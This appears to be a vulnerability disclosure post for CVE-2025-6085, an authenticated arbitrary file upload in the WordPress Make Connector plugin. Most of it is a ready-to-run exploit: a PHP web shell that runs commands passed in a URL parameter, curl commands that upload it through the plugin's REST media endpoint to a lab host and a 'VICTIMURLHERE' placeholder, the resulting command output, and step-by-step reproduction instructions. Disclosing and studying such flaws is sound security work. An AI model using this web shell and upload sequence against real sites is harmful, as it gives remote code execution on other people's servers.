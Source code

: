 +++
title = 'Make Connector <= 1.5.10 - Authenticated (Admin+) Arbitrary File Upload'
date = 2025-09-03T00:00:12+00:00
hideToc = true
tags = ["CVE", "WordPress", "integromat-connector"]
+++
### CVE-2025-6085

The [Make Connector](https://wordpress.org/plugins/integromat-connector/) plugin does not sanitize the file types in its REST API media uploads, allowing administrators or above to upload arbitrary files and potentially gain code execution on the server.

## TL;DR Exploits

```bash
cat << 'EOF' > shello.php
<?php    
    // Silence is golden
    if (!empty($_GET['cmd'])) {
        echo "<pre>".shell_exec($_GET["cmd"])."</pre>";
    }
?>
EOF

curl -k -X POST https://lab1.hacker/wp-json/wp/v2/media \
  -H "IWC-API-KEY: YOURFRIENDLYKEYHERE" \
  -F "file=@shello.php" \
  -F "title=Hacker World" \
  -F "description=A test file" \
  -F "caption=Hacker Caption" \
```

Leveraging the shell once it's in the uploads folder:
```bash
curl -k https://lab1.hacker/wp-content/uploads/2025/04/shello.php\?cmd\=ip%20addr         

<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 67461sec preferred_lft 67461sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86201sec preferred_lft 14201sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:bd:e1:95:26 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```

## Details
The `/wp-content/integromat-connector/class/class-rest-request.php` file's `dispatch()` function will call `self::upload_media();` on line [24](https://plugins.trac.wordpress.org/browser/integromat-connector/trunk/class/class-rest-request.php#L24). This `upload_media()` function copies the uploaded file to a browsable directory `copy( realpath( $_FILES['file']['tmp_name'] ), $media_file_source );` on line [74](https://plugins.trac.wordpress.org/browser/integromat-connector/trunk/class/class-rest-request.php#L74), prior to checking the allowed mime types, which it does on lines [90-95](https://plugins.trac.wordpress.org/browser/integromat-connector/trunk/class/class-rest-request.php#L90-95)

Vulnerable snipped from `class-rest-reques.php`:
```php
66	                if ( (int) $_FILES['file']['size'] === 0 ) {
67	                        Rest_Response::render_error( 500, 'The uploaded file exceeds the upload_max_filesize directive in php.ini.', 'rest_upload_unknown_error' );
68	                }
69	
70	                if ( (int) $_FILES['file']['error'] > 0 ) {
71	                        Rest_Response::render_error( 500, 'An error has occured when uploading file to the server.', 'rest_upload_unknown_error' );
72	                }
73	
74	                copy( realpath( $_FILES['file']['tmp_name'] ), $media_file_source );
75	
76	                $title       = isset( $_REQUEST['title'] ) ? sanitize_title( $_REQUEST['title'] ) : '';
77	                $description = isset( $_REQUEST['description'] ) ? sanitize_text_field( $_REQUEST['description'] ) : '';
78	                $caption     = isset( $_REQUEST['caption'] ) ? sanitize_text_field( $_REQUEST['caption'] ) : '';
79	                $alt_text    = isset( $_REQUEST['alt_text'] ) ? sanitize_text_field( $_REQUEST['alt_text'] ) : '';
80	                $post_id     = isset( $_REQUEST['post'] ) ? (int) $_REQUEST['post'] : '';
81	
82	                $upload_dir = wp_upload_dir();
83	                $filename   = basename( $media_file_source );
84	                if ( wp_mkdir_p( $upload_dir['path'] ) ) {
85	                        $file = $upload_dir['path'] . '/' . $filename;
86	                } else {
87	                        $file = $upload_dir['basedir'] . '/' . $filename;
88	                }
89	
90	                $wp_file_type  = wp_check_filetype( $filename, null );
91	                $allowed_types = get_allowed_mime_types();
92	
93	                if ( ! in_array( $wp_file_type['type'], $allowed_types ) ) {
94	                        Rest_Response::render_error( 500, 'Sorry, this file type is not permitted for security reasons.', 'rest_upload_unknown_error' );
95	                }
```

## Manual Reproduction
1. Login to the admin panel and navigate to the `Make` plugin's settings, and copy the API key.
![one](/posts/images/cve-2025-6085/1.png)
2. Make a dirty web shell, or bring your own if you'd like:
```bash
cat << 'EOF' > shello.php
<?php    
    // Silence is golden
    if (!empty($_GET['cmd'])) {
        echo "<pre>".shell_exec($_GET["cmd"])."</pre>";
    }
?>
EOF
```
2. Execute the following curl command to hit the plugin's media REST endpoint.
```bash
curl -k -X POST \
  https://VICTIMURLHERE/wp-json/wp/v2/media \
  -H "IWC-API-KEY: cjusksft1dwcoq43lyy6a6lf9tb6qc63" \
  -F "file=@shello.php" \
  -F "title=Hacker World" \
  -F "description=A test file" \
  -F "caption=Hacker Caption" \
  -F "alt_text=Hacker Alt Text"
```
3. You will see a json response like below, but that's OK because our file already got moved :)
```json
{
    "code": "rest_upload_unknown_error",
    "message": "Sorry, this file type is not permitted for security reasons.",
    "data": {
        "status": 500
    }
}
```
4. Naviate to the webshell located at `https://lab1.hacker/wp-content/uploads/2025/04/shello.php?cmd=ip%20addr`.
